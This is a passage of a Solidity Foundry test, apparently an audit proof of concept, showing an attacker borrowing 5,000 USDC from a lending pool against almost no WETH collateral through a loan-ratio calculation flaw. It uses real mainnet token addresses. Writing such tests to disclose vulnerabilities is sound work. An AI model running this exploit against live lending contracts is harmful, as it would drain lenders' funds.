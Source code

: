 ```solidity
    IERC20 public _usdc = IERC20(0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48);
    WETH public _weth = WETH(payable(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2));

    address bob = vm.addr(0x01);
    address attacker = vm.addr(0x02);

    address _donator = 0x47ac0Fb4F2D84898e4D9E7b4DaB3C24507a6D503;

    function setUp() public {
        _lender = new Lender();
    }


    function test_calculationExploit() external {
        vm.startPrank(_donator);
        _usdc.transfer(bob, 5000e6);
        _usdc.transfer(attacker, 5000e6);
        vm.stopPrank();
        vm.deal(bob, 5e18);
        vm.deal(attacker, 5e18);
        vm.startPrank(bob);
        _weth.deposit{value: 5e18}();
        Pool memory p = Pool({
            lender: bob,
            loanToken: address(_usdc),
            collateralToken: address(_weth),
            minLoanSize: 100e6,
            poolBalance: 5000e6,
            maxLoanRatio: 2*10**18,
            auctionLength: 1 days,
            interestRate: 1000,
            outstandingLoans: 0
        });
        _usdc.approve(address(_lender), type(uint256).max);
        _lender.setPool(p);
        vm.stopPrank();
        vm.startPrank(attacker);
        _weth.deposit{value: 5e18}();
        bytes32 poolId = _lender.getPoolId(bob, address(_usdc), address(_weth));
        Borrow memory b = Borrow({
            poolId: poolId,
            debt: 5000e6,
            collateral: 1e10 // collateral is WETH --> 0.00000001 --> 0.000018$ to borrow 5k USDC
        });
        Borrow[] memory borrows = new Borrow[](1);
        borrows[0] = b;
        _weth.approve(address(_lender), type(uint256).max);
        _lender.borrow(borrows);
        vm.stopPrank();
        console.log("USDC Balance Attacker: ", _usdc.balanceOf(attacker));
        console.log("WETH Balance Attacker: ", _weth.balanceOf(attacker));
    }

}

```
